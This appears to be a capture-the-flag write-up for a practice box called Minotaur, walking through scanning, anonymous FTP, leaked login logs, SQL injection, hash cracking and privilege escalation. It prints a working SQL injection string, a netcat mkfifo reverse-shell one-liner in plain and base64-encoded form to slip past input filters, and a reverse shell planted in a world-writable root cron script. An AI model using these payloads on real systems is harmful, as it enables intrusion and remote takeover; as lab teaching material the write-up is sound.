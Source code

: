 # Writeup Minotaur-Box

## Nmap scan

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

## FTP Server
you see you can login into ftp anonymously

you see these files -> download them 

```
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .secret
-rw-r--r--   1 root     root          141 Jun 15 14:57 message.txt
```

if you cd to .secret you get the flag and a note with a hint for the future

```
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

## Web Server
lets focus on the web server now:
doing a quick dir-scan shows that the /logs dir is exposed to the public
you can find a post request log at http://[Machine_IP]/logs/post/post_log.log
where you can find a valid password and user name to login with
email=Daedalus&password=g2e55kh4ck5r

you get presented with an api interface where you can query for user data:
lets try quering for our user Daedalus
you will get back the name and hashed password of him
if you look at inspect element theres a hint hidden it tells you something about permissions ....

``` <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin --> ```

if you look at the structure of the paramenters you see at the naming pattern (namePeoplenameCreature) there may be a parameter called permissionPeople
so lets try out an sql-injection with this information

``` Daedalus' OR permissionPeople='admin ```

you get this result gives you a new user: 

```5    M!n0taur    1765db9457f496a39859209ee81fbda4 ```

you can either crack this hash (rockyou list), or you can use a website like crackstation
now login with the new userinformation you got
user: M!n0taur password: aminotauro
and a link to an pannel called "secret echo pannel"
there you can echo some your input out witch internally executes the echo command but you somhow have to bypass the filters and gain RCE
when you find out `` is permitted and you execute commands with it (you have to execute them seperatly at ';' because this char is filterd )
the best way to bypass the filter is just with a base64 encoded reverse shell payload
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4243 >/tmp/f ```
to this

```cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y=```

since the equals sign is also filterd you will have to remove it witch leaves you with this payload
```echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y" | base64 -d | bash```
then you get access to to machine and find the user flag located in /home/user/

## Machine 
you see theres cronjob running on a file owend by root(location: /timer/timer.sh) but wrteable by everyone
add your reverse shell (use a different port this time)
```rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4243 >/tmp/f```
the location of the root flag is in the root folder



